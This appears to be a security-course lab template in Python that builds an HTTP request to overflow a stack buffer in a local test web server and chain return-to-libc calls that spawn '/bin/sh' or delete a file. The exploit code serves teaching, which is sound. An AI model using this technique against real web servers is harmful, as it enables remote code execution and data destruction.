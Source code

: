 ```python
d_addr = 0xdeadbeef


# ebp  to make the task simple, we print ebp of getToken function (vulnerable) 
ebp_addr = 0xffffd158



## Below is the function that you should modify to construct an
## HTTP request that will cause a buffer overflow in some part
## of the vulnerable web server and exploit it.

def build_exploit(shellcode, type):

    ul_arg = "/tmp/test.txt\0"
    ul_arg_addr = ebp_addr + 20

    sys_arg = "/bin/sh\0"
    sys_arg_addr = ebp_addr + 20

    req = ("POST / HTTP/1.1\r\n").encode('latin-1')
    # All of the header information other than "Content-Length" is not important
    req += ("Host: 127.0.0.1\r\n").encode('latin-1')
    # The Content-Length below is useful, and depends on the length of 
    # username plus password, you need to use wireshark (together with web browser) 
    # for checking the length
    req += ("Content-Length: 58\r\n").encode('latin-1') 
    req += ("Origin: http://127.0.0.1\r\n").encode('latin-1')
    req += ("Connection: keep-alive\r\n").encode('latin-1')
    req += ("Referer: http://127.0.0.1/\r\n").encode('latin-1')

    req += ("Hacking: ").encode('latin-1')
    # For different oses (and compilation), the length of fillup for 
    # hijacking the return address in the stack, could be different,
    # therefore you need to debug the program for checking and adjusting.
    req += b'A' * 1068
    # use "/bin/sh" string in libc
    if type == 1:
        req += p32(sys_addr)
        req += p32(ex_addr)
        req += p32(sh_addr)
        req += p32(0)

    # put "/bin/sh" string in the stack
    # ebp is needed to locate the place of string 
    # Note: using this method, you can put arbitrary string in the stack, 
    # so that "system" can execute arbitrary command
    # req += p32(sys_addr)
    # req += p32(ex_addr)
    # req += p32(sys_arg_addr)
    # req += p32(0)
    # req += sys_arg.encode('latin-1')


    # remove a file specified by the path "ul_arg"
    if type == 2:
        req += p32(ul_addr)
        req += p32(ex_addr)
        req += p32(ul_arg_addr)
        req += p32(0)
        req += ul_arg.encode('latin-1')
    

```